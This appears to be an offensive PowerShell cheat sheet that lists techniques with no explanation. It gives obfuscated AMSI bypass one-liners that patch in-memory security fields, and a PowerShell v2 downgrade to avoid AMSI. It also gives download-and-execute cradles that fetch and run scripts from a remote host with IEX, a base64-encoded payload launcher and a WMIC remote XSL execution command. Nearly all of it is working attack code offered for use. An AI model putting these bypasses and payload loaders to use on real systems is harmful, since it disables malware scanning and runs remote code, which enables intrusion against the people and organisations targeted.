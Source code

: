 Bypasses
```powershell
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('ams'+'iInitFailed','NonPublic,Static').SetValue($null,$true)
```

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);
```

```powershell
$ananas=[Ref].Assembly.GetTypes();Foreach($banana in $ananas) {if ($banana.Name -like "*iU"+"tils") {$cherry=$banana}};$py=$cherry.GetFields('NonPublic,Static');Foreach($ello in $py) {if ($ello.
Name -like "*Context") {$ll=$ello}};$j=$ll.GetValue($null);[IntPtr]$ptr=$j;[Int32[]]$buf=@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);
```

Inject AMSI bypass remotely
```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/amsi.txt') | IEX
```

PowerShell v2 (no amsi)
```powershell
powershell -version 2 -command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.1/run.txt')"
```

WinDbg
```
lm m amsi (check if amsi module is loaded)
```

```
sxe ld amsi (breakpoint on loading of amsi module)
```

<hr>
# Execute
<hr>
Powershell one-liner (base64 payload)
```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText

powershell -enc KAB...
```

WMIC
```shell
wmic process get brief /format:"http://192.168.1.1/payload.xsl"
```
